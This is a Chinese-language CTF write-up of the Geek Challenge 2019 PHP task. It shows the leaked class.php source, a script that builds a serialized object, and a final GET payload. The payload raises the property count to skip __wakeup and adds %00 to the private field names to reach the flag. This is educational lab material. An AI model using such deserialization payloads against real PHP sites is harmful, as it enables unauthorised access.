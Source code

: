 ```yaml
---
title: 极客大挑战 2019PHP 1
date: 2022-05-14 22:13:04
toc: false
tags:
- CTF
categories: CTF
my: php1
---
```


打开题目看见猫猫的动画，非常的简陋（bushi）大佬制作的动画还是很强

![](https://s2.loli.net/2022/05/15/19agnTkZNpbCM6u.png)

按F12没有任何提示，看见题目说的备份文件，就直接去扫了目录，发现了`www.zip`，直接去访问下载了网站源码

![](https://s2.loli.net/2022/05/15/FXqgWCYipZLsEca.png)

~~直接打开flag.php好拿到flag本题结束~~

怎么可能这么简单发现flag很明显就是假的，接下里就开始分析源码吧

![](https://s2.loli.net/2022/05/15/yBMikTZsj7Wa4tX.png)这里加载了一个class.php文件，然后采用get传递一个select参数，随后将之反序列化

我们接着打开class.php，很好非常多，看着就头大

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

根据代码的可以知道，如果password=100，username=admin，在执行__destruct()的时候可以获得flag，我就直接去构造反序列化:

```php
<?php

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));

?>
```

得到结果

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

在反序列化的时候会首先执行`__wakeup()`魔术方法，这个方法会把我们的username重新赋值，当属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行，从而修改为如下

```
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上%00的前缀，再次改造序列化后得到如下

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

直接构造payload

```
/?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

直接拿到flag
